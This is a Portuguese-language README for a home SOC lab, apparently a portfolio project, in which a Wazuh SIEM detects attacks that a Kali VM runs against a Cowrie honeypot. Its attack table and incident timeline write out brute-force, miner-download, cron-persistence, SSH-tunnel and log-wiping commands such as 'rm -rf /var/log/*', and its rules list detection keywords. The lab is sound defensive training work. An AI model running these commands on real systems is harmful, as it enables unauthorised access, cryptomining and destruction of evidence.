





# SOC Home Lab — Wazuh + Cowrie


Laboratório de SOC montado do zero para praticar detecção e investigação de intrusões: um SIEM Wazuh recebe os logs de um honeypot SSH Cowrie, 12 regras próprias geram os alertas e uma Kali executa os ataques.

---

## Índice

- [Resumo](#resumo)
- [Habilidades demonstradas](#habilidades-demonstradas)
- [Objetivo](#objetivo)
- [Arquitetura](#arquitetura)
- [Implementação](#implementação)
- [Ataques simulados e detecções](#ataques-simulados-e-detecções)
- [Investigação de um incidente](#investigação-de-um-incidente)
- [Desafios e lições aprendidas](#desafios-e-lições-aprendidas)
- [Próximos passos](#próximos-passos)

---

## Resumo

Montei um ambiente de SOC em casa com o SIEM Wazuh 4.14, um honeypot SSH Cowrie e uma máquina atacante Kali, tudo em VMs no VMware e numa rede isolada. Escrevi 12 regras de detecção próprias, mapeadas no MITRE ATT&CK, e simulei 9 tipos de ataque: de brute force e reconhecimento até persistência, túnel SSH e tentativa de apagar rastros. Todos geraram alerta no Wazuh, e consegui reconstruir uma sessão inteira do atacante a partir dos logs.

## Habilidades demonstradas

- Administração de um SIEM (Wazuh): instalação, agentes, índices e painel.
- Engenharia de detecção: escrita e teste de regras, correlação e redução de falso positivo.
- MITRE ATT&CK: mapeamento de cada detecção a uma técnica.
- Threat hunting e análise de logs: triagem de alertas e reconstrução de incidente.
- Honeypot (Cowrie) e simulação de ataque (Nmap, Hydra, SSH, SCP).
- Virtualização e isolamento de rede (VMware, Host-only).
- Linux: permissões, systemd, troubleshooting.

## Objetivo

Ter prática real no ciclo de trabalho de um analista de SOC, do log bruto até a investigação:

- Coletar logs de um ativo e enviá-los a um SIEM com agente.
- Escrever regras de detecção que transformam eventos em alertas com contexto.
- Mapear cada detecção para técnicas do MITRE ATT&CK.
- Simular ataques reais de forma controlada, sem expor nenhuma rede de produção.
- Triar alertas e reconstruir o que um atacante fez.

## Arquitetura

Três VMs no VMware Workstation, num notebook i7-10510U com 32 GB de RAM, ligadas por uma rede Host-only sem saída para a internet nem para a rede da empresa. A Kali ataca o honeypot na porta 2222, o agente no honeypot envia os logs ao SIEM e eu analiso os alertas no painel do Wazuh, pelo navegador da própria VM do SIEM.



| VM | Sistema | Função | Recursos |
| --- | --- | --- | --- |
| SIEM | Ubuntu 26.04 | Wazuh 4.14 (manager, indexer e painel) | 4 vCPU, 8 GB, 60 GB |
| Honeypot | Ubuntu | Cowrie + agente Wazuh | 1 vCPU, 4 GB, 25 GB |
| Atacante | Kali Linux | Nmap, Hydra, SSH, SCP | 2 vCPU, 4 GB, 40 GB |

As instalações foram feitas em NAT, porque as VMs precisavam baixar pacotes. Antes do primeiro ataque, movi as três para a rede isolada e confirmei que a Kali não alcança a internet.



## Implementação

O Cowrie grava cada evento em JSON, o agente Wazuh envia esse arquivo ao SIEM e as regras customizadas transformam cada tipo de evento num alerta.

### 1. Honeypot Cowrie

Roda como usuário sem privilégio, escuta na porta 2222 e imita um Debian com OpenSSH 9.2. Aceita qualquer senha, exceto `root` com senhas óbvias, o que permite observar tanto tentativas que falham quanto um atacante "dentro" do sistema falso.

### 2. Agente Wazuh

No honeypot, o agente lê o log JSON do Cowrie com este bloco no `/var/ossec/etc/ossec.conf`:

```xml
<localfile>
  <log_format>json</log_format>
  <location>/home/honey/cowrie/var/log/cowrie/cowrie.json</location>
</localfile>
```



### 3. Regras de detecção

Escrevi as regras em `/var/ossec/etc/rules/local_rules.xml`. Elas filtram pelo campo `eventid`, que o Wazuh já extrai do JSON, em vez de procurar texto no log inteiro. Isso deixa as regras mais precisas, e as descrições trazem IP, usuário e comando direto no alerta.

| ID | Nível | Detecta | MITRE |
| --- | --- | --- | --- |
| 100100 | 7 | Falha de login | T1110 |
| 100101 | 12 | 5 falhas do mesmo IP em 60 s (brute force) | T1110.001 |
| 100110 | 15 | Login bem-sucedido no honeypot | T1078 |
| 100120 | 15 | Comando executado | T1059.004 |
| 100121 | 10 | Reconhecimento (`uname`, `whoami`, `/etc/passwd`) | T1082 |
| 100122 | 15 | Download de ferramenta (`wget`, `curl`) | T1105 |
| 100123 | 15 | Persistência (`crontab`, `authorized_keys`) | T1053.003, T1098.004 |
| 100124 | 15 | Apagar rastros (`history -c`, `/var/log`) | T1070.003, T1070.002 |
| 100130 | 12 | Arquivo enviado por SCP | T1105 |
| 100140 | 12 | Túnel SSH (port forwarding) | T1572 |
| 100150 | 5 | Nova conexão SSH ao honeypot | T1595 |
| 100151 | 10 | Ferramenta automatizada (libssh, Nmap, paramiko...) | T1595 |

Duas técnicas que valem destacar:

- **Regras em hierarquia.** As regras 100121 a 100124 são filhas da 100120: quando um comando se encaixa numa delas, o alerta genérico de "comando executado" vira um alerta específico, o que acelera a triagem.
- **Detecção em dois níveis.** Como todo acesso a um honeypot já é suspeito, a 100150 alarma qualquer conexão e a 100151 sobe o nível quando reconhece uma ferramenta. Minha primeira versão só casava se o banner trouxesse o nome da ferramenta, e um scan de Nmap passava batido; a versão em dois níveis corrigiu isso.

Exemplo de regra (brute force por correlação):

```xml
<rule id="100101" level="12" frequency="5" timeframe="60">
  <if_matched_sid>100100</if_matched_sid>
  <same_field>src_ip</same_field>
  <description>Cowrie: possível brute force vindo de $(src_ip)</description>
  <mitre><id>T1110.001</id></mitre>
</rule>
```

Antes de ativar, validei cada regra no `wazuh-logtest` com eventos simulados. O arquivo completo está em [`rules/local_rules.xml`](rules/local_rules.xml).

## Ataques simulados e detecções

Todos os 9 ataques, feitos da Kali contra o honeypot, geraram o alerta esperado no Wazuh.

| Ataque | Comando usado na Kali | Regra | MITRE |
| --- | --- | --- | --- |
| Varredura | `nmap -sV -p 2222 <honeypot>` | 100150, 100151 | T1595 |
| Brute force | `hydra -l root -P lista.txt -t 1 -s 2222 ssh://<honeypot>` | 100100, 100101 | T1110 |
| Acesso com credencial | `ssh root@<honeypot> -p 2222` | 100110 | T1078 |
| Reconhecimento | `uname -a`, `whoami`, `cat /etc/passwd` | 100121 | T1082 |
| Download de ferramenta | `wget http://.../xmrig -O /tmp/xmrig` | 100122 | T1105 |
| Persistência | chave em `~/.ssh/authorized_keys` + `crontab` | 100123 | T1053.003, T1098.004 |
| Apagar rastros | `history -c`, `rm -rf /var/log/*` | 100124 | T1070 |
| Envio de arquivo | `scp -P 2222 malware.sh root@<honeypot>:/tmp/` | 100130 | T1105 |
| Túnel SSH | `ssh -p 2222 -N -L 8080:<destino>:80 root@<honeypot>` | 100140 | T1572 |

O download falhou porque a rede do lab não tem internet. O alerta dispara mesmo assim, porque a regra olha o comando digitado, não o resultado. É o que interessa num ambiente real: a tentativa já é um sinal de comprometimento.





## Investigação de um incidente

A partir de um único alerta de login bem-sucedido, reconstruí tudo o que o atacante fez numa sessão.

**Como investiguei:**

1. Abri o alerta 100110 no Threat Hunting e copiei o `data.session` e o `data.src_ip`.
2. Filtrei por `data.session:"<ID da sessão>"` e ordenei por horário.
3. Li os eventos em ordem e classifiquei cada um numa fase do ataque.

| Evento | Detalhe | Fase |
| --- | --- | --- |
| Conexão | Origem `<IP da Kali>`, cliente `<versão SSH>` | Acesso inicial |
| Login | Usuário `root`, senha `<senha>` | Acesso inicial |
| Comando | `uname -a` | Reconhecimento |
| Comando | `wget .../xmrig` | Execução |
| Comando | `crontab` com `/tmp/xmrig` | Persistência |
| Comando | `history -c` | Evasão de defesa |

**Conclusão:** o atacante entrou com credencial fraca, levantou informações do sistema, tentou instalar um minerador, criou persistência por cron e tentou apagar o histórico. Num ambiente real, as ações seriam: bloquear o IP de origem, trocar as credenciais, remover a tarefa do cron e a chave SSH, e verificar se outros hosts receberam conexões do mesmo IP.

## Desafios e lições aprendidas

Os problemas que apareceram na montagem ensinaram tanto quanto os ataques.

| Problema | Causa | Solução |
| --- | --- | --- |
| Instalador do Wazuh baixava um XML em vez do script | O endereço `4.x` do pacote não existia mais | Usar o endereço da versão atual (`4.14`) da documentação oficial |
| Cowrie não iniciava: `Permission denied` no log | Arquivos criados com `sudo` ficaram com dono `root` | `chown` da pasta para o usuário do Cowrie e rodar sem `sudo` |
| Painel: "No API available to connect" | Erro de XML no `local_rules.xml` impediu o manager de subir | Ler o `ossec.log`, reescrever o arquivo de regras e testar no `wazuh-logtest` antes de reiniciar |
| Scan de Nmap não gerava alerta | A regra só casava se o banner trouxesse o nome da ferramenta | Dividir em duas regras: alarmar toda conexão e subir o nível para ferramenta conhecida |
| Alertas não apareciam no Threat Hunting | Eu estava na aba Dashboard (gráficos), não na aba Events (lista) | Abrir a aba Events e alinhar o filtro de tempo |
| Risco de os ataques chegarem à rede da empresa | Em NAT, as VMs alcançam a rede do host | Instalar em NAT e depois mover as VMs para uma rede Host-only isolada |

O que levo para o trabalho:

- Validar regras antes de ativar. Um erro de sintaxe derruba a detecção inteira, não só a regra nova.
- Filtrar por campos estruturados (`eventid`, `src_ip`) dá alertas mais precisos que procurar texto.
- Regras em hierarquia entregam contexto na triagem sem duplicar alertas.
- Isolamento de rede vem antes de qualquer ataque, mesmo em laboratório.

## Próximos passos

- Adicionar um endpoint Windows com Sysmon e simular ataques com Atomic Red Team.
- Ligar o Active Response do Wazuh para bloquear automaticamente o IP de quem faz brute force.
- Integrar o VirusTotal para analisar arquivos enviados ao honeypot.
- Montar um dashboard próprio com os indicadores do honeypot.
